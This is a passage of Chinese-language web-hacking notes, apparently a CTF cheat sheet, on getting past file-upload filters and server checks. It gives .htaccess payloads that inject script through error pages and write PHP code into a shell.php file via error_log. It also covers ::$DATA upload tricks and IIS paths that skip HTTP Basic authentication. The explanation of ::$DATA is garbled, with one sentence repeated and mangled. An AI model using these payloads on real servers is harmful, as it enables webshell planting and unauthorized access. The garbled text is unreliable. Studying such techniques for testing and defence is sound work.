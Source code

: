     其中`highlight_file(__FILE__)`也可以换作
  
    错误消息链接：
  
    ```
    index.php ：
    &lt;?php
    include(&#39;foo&#39;);#foo报错
    
    .htaccess
    php_flag display_errors 1
    php_flag html_errors 1
    php_value docref_root &#34;&#39;&gt;&lt;script&gt;alert(1);&lt;/script&gt;&#34;
    ```
  
  * 自定义错误文件
  
    error.php
  
    ```
    &lt;?php include(&#39;shell&#39;);#报错页面
    ```
  
    .htaccess
  
    ```
    php_value error_log /tmp/www/html/shell.php 
    php_value include_path &#34;&lt;?php phpinfo(); __halt_compiler();&#34;
    ```
  
    访问 error.php，会报错并记录在 shell.php 文件中
  
* `.user.ini`

* 后缀大小写绕过

* 空格绕过

* 点绕过

* ::$DATA绕过

  * 原理

    当我们对一个在NTFS分区中的ASP文件发出包含DATA请 求 ，IIS会 检 查 最 后 一 个 “ . ” 后 面 的 扩 展 名 ， 因 为 多 了 : : DATA请求，IIS会检查最后一个“ . ”后面的扩展名，因为多了::DATA请求，IIS会检查最后一个“.”后面的扩展名，因为多了::DATA，结果IIS不认为这是一个ASP文件，而文件系统可以识别该请求，于是返回ASP的源代码。

  * 绕过方法 · IIS目录访问权限绕过

    在IIS6.0&#43;PHP、IIS7&#43;asp、IIS7.5&#43;php的环境下，如果目录是通过HTTP Basic来认证，假设网站根目录存在index.php文件，可通过构造如下方式来绕过认证直接访问目录下的文件

    ```
    /admin::$INDEX_ALLOCATION/index.php
    /admin:$i30:$INDEX_ALLOCATION/index.asp
    ```

  * 绕过方法 · 上传绕过黑名单

    在测试中我们发现如果上传的文件名字为：test.php::$DATA，会在服务器上生成一个test.php的文件，其中内容和所上传文件内容相同，并被解析
